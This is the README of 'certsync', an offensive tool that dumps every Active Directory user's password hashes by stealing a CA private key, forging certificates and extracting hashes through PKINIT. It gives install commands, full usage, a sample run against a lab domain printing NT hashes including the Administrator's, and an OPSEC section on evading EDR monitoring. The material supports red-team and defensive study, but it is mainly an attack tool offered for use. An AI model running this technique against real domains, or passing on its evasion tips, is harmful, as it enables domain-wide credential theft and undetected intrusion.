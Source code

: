 # certsync

`certsync` is a new technique in order to dump NTDS remotely, but this time **without DRSUAPI**: it uses [golden certificate](https://cyberstoph.org/posts/2019/12/an-introduction-to-golden-certificates/) and [UnPAC the hash](https://www.thehacker.recipes/ad/movement/kerberos/unpac-the-hash).
It works in several steps:

1. Dump user list, CA informations and CRL from LDAP
2. Dump CA certificate and private key
3. Forge offline a certificate for every user
4. UnPAC the hash for every user in order to get nt and lm hashes

```text
$ certsync -u khal.drogo -p 'horse' -d essos.local -dc-ip 192.168.56.12 -ns 192.168.56.12
[*] Collecting userlist, CA info and CRL on LDAP
[*] Found 13 users in LDAP
[*] Found CA ESSOS-CA on braavos.essos.local(192.168.56.23)
[*] Dumping CA certificate and private key
[*] Forging certificates for every users. This can take some time...
[*] PKINIT + UnPAC the hashes
ESSOS.LOCAL/BRAAVOS$:1104:aad3b435b51404eeaad3b435b51404ee:08083254c2fd4079e273c6c783abfbb7:::
ESSOS.LOCAL/MEEREEN$:1001:aad3b435b51404eeaad3b435b51404ee:b79758e15b7870d28ad0769dfc784ca4:::
ESSOS.LOCAL/sql_svc:1114:aad3b435b51404eeaad3b435b51404ee:84a5092f53390ea48d660be52b93b804:::
ESSOS.LOCAL/jorah.mormont:1113:aad3b435b51404eeaad3b435b51404ee:4d737ec9ecf0b9955a161773cfed9611:::
ESSOS.LOCAL/khal.drogo:1112:aad3b435b51404eeaad3b435b51404ee:739120ebc4dd940310bc4bb5c9d37021:::
ESSOS.LOCAL/viserys.targaryen:1111:aad3b435b51404eeaad3b435b51404ee:d96a55df6bef5e0b4d6d956088036097:::
ESSOS.LOCAL/daenerys.targaryen:1110:aad3b435b51404eeaad3b435b51404ee:34534854d33b398b66684072224bb47a:::
ESSOS.LOCAL/SEVENKINGDOMS$:1105:aad3b435b51404eeaad3b435b51404ee:b63b6ef2caab52ffcb26b3870dc0c4db:::
ESSOS.LOCAL/vagrant:1000:aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b:::
ESSOS.LOCAL/Administrator:500:aad3b435b51404eeaad3b435b51404ee:54296a48cd30259cc88095373cec24da:::
```

Contrary to what we may think, the attack is not at all slower.

## Table of Contents

- [certsync](#certsync)
  - [Table of Contents](#table-of-contents)
  - [Installation](#installation)
  - [Usage](#usage)
  - [Why](#why)
  - [Requirements](#requirements)
  - [Limitations](#limitation)
  - [OPSEC](#opsec)
  - [Credits](#credits)

## Installation

```text
git clone https://github.com/zblurx/certsync
cd certsync
pip install .
```

or 

```text
pipx install git+https://github.com/zblurx/certsync
```

## Usage

```text
$ certsync -h
usage: certsync [-h] [-debug] [-outputfile OUTPUTFILE] [-ca-pfx pfx/p12 file name] [-ca-ip ip address] [-d domain.local] [-u username] [-p password] [-hashes LMHASH:NTHASH]
                [-no-pass] [-k] [-aesKey hex key] [-use-kcache] [-kdcHost KDCHOST] [-scheme ldap scheme] [-ns nameserver] [-dns-tcp] [-dc-ip ip address]
                [-ldap-filter LDAP_FILTER] [-template cert.pfx] [-timeout timeout] [-jitter jitter] [-randomize]

Dump NTDS with golden certificates and PKINIT

options:
  -h, --help            show this help message and exit
  -debug                Turn DEBUG output ON
  -outputfile OUTPUTFILE
                        base output filename

CA options:
  -ca-pfx pfx/p12 file name
                        Path to CA certificate
  -ca-ip ip address     IP Address of the certificate authority. If omitted it will use the domainpart (FQDN) specified in LDAP

authentication options:
  -d domain.local, -domain domain.local
                        Domain name
  -u username, -username username
                        Username
  -p password, -password password
                        Password
  -hashes LMHASH:NTHASH
                        NTLM hashes, format is LMHASH:NTHASH
  -no-pass              don't ask for password (useful for -k)
  -k                    Use Kerberos authentication. Grabs credentials from ccache file (KRB5CCNAME) based on target parameters. If valid credentials cannot be found, it
                        will use the ones specified in the command line
  -aesKey hex key       AES key to use for Kerberos Authentication (128 or 256 bits)
  -use-kcache           Use Kerberos authentication from ccache file (KRB5CCNAME)
  -kdcHost KDCHOST      FQDN of the domain controller. If omitted it will use the domain part (FQDN) specified in the target parameter

connection options:
  -scheme ldap scheme
  -ns nameserver        Nameserver for DNS resolution
  -dns-tcp              Use TCP instead of UDP for DNS queries
  -dc-ip ip address     IP Address of the domain controller. If omitted it will use the domain part (FQDN) specified in the target parameter

OPSEC options:
  -ldap-filter LDAP_FILTER
                        ldap filter to dump users. Default is (&(|(objectCategory=person)(objectClass=computer))(objectClass=user))
  -template cert.pfx    base template to use in order to forge certificates
  -timeout timeout      Timeout between PKINIT connection
  -jitter jitter        Jitter between PKINIT connection
  -randomize            Randomize certificate generation. Takes longer to generate all the certificates
```

## Why

DSRUAPI is more and more monitored and sometimes retricted by EDR solutions. Moreover, `certsync` does not require to use a Domain Administrator, it only require a CA Administrator.

## Requirements

This attack needs:
- A configured Entreprise CA on an ADCS server in the domain,
- PKINIT working,
- An domain account which is local administrator on the ADCS server, or an export of the CA certificate and private key.

## Limitations

Since we cannot PKINIT for users that are revoked, we cannot dump thier hashes.

## OPSEC

Some options were added to customize the behaviour of the tool:
- `-ldap-filter`: change the LDAP filter used to select usernames to certsync.
- `-template`: use an already delivered certificate to mimic it when forging users certificates.
- `-timeout` and `-jitter`: change timeout between PKINIT authentication requests.
- `-randomize`: By default, every forged user certificates will have the same private key, serial number and validity dates. This parameter will randomize them, but the forging will take longer. 

## Credits

- [Olivier Lyak](https://twitter.com/ly4k_) for all his work on ADCS and [certipy](https://github.com/ly4k/Certipy).
- [Benjamin Delpy](https://twitter.com/gentilkiwi) for the unPAC the hash technique.
- [Will Schroeder](https://twitter.com/harmj0y) and [Lee Christensen](https://twitter.com/tifkin_) for [Certified Pre-Owned](https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf) and [Certify](https://github.com/GhostPack/Certify).
- [Mayfly](https://twitter.com/M4yFly) for his great lab: [GOAD](https://github.com/Orange-Cyberdefense/GOAD).